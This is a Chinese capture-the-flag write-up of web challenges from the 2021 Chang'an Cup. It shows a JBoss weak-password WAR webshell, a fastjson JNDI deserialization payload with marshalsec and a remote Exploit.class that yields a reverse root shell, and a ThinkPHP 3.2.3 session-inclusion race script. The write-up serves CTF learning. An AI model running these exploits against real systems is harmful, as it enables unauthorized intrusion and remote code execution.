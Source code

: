 # Old But A Little New

一个JBOSS的环境，查了一下，发现了**JBoss6.x Administration Console 弱口令getshell**这个可以打。

用弱密钥admin,admin登录admin console，然后点击web application (war)s，上传一个war包：

![image-20210925135253113](2021长安杯 高校组 Web.assets/image-20210925135253113.png)

然后getshell即可：

```
http://5111690b.yunyansec.com/shell/1.jsp?pwd=feng&cmd=cat /flag
```





# soeasy

进入网页显示：

```json
{
	"name":"from zero to one"
}
```

尝试post穿json格式的name，发现内容成功回显，但是试了试不是SSTI。但是又尝试了报错：

![image-20210925141710936](2021长安杯 高校组 Web.assets/image-20210925141710936.png)



很明显的`SpringBoot`的error页面了。既然是`Java`的`Json`，大概率得是`fastjson`了，直接打就打通了，具体可以上网上查fastjson的攻击方式即可：

```java
POST / HTTP/1.1
Host: 14ac75ae.yunyansec.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/json
Content-Length: 265

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://118.31.168.198:39654/Exploit",
        "autoCommit":true
    }
}
```

```java
root@iZbp14tgce8absspjkxi3iZ:~/ctf/fastjson# java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://118.31.168.198:39343/#Exploit" 39654
* Opening JRMP listener on 39654
Have connection from /113.201.14.253:59676
Reading message...
Is RMI.lookup call for Exploit 2
Sending remote classloading stub targeting http://118.31.168.198:39343/Exploit.class
Closing connection


```

```java
root@iZbp14tgce8absspjkxi3iZ:~/ctf/fastjson# python3 -m http.server 39343
Serving HTTP on 0.0.0.0 port 39343 (http://0.0.0.0:39343/) ...
113.201.14.253 - - [25/Sep/2021 14:15:36] "GET /Exploit.class HTTP/1.1" 200 -

```

```java
root@iZbp14tgce8absspjkxi3iZ:~# nc -lvvp 39655
Listening on [0.0.0.0] (family 0, port 39655)
Connection from [113.201.14.253] port 39655 [tcp/*] accepted (family 2, sport 59160)
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@652ebb7c22f5:/# ls
ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
root@652ebb7c22f5:/# cat /flag
cat /flag
flag{22081ab1ee9d923e70d1f88d4892ecb1}
root@652ebb7c22f5:/#

```





# DaLaBengBa

www.zip有源码泄露，?s=1知道是thinkphp3.2.3：

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($doge=''){
        if(preg_grep('/flag|Home|Common\/21/i',$doge)){
            die("<dialog open>Get Out Hacker！</dialog>");
        }else{
            $this->assign($doge);
            $this->display();
        }
    }
}
```

佛了。。。长安杯真就复现杯。。。复现一下tp3.2.3的那个模板渲染的rce。ban了一些东西，利用session文件包含即可：

```python
import io
import sys
import requests
import threading

host = 'http://a297c63a.yunyansec.com/'
sessid = 'vrhtvjd4j1sd88onr92fm9t2sj'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            host,
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php echo md5('1');echo file_get_contents('flag.php');?>"},
            files={"file":('a.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        response = session.get(f'{host}?doge[_filename]=/tmp/sess_{sessid}')
        # print(response.text)
        if 'c4ca4238a0b923820dcc509a6f75849b' not in response.text:
            print('[+++]retry')
            #print(response.text)
        else:
            print(response.text)
            sys.exit(0)


with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
    READ(session)
```



# asuka

同上那个JBOSS...





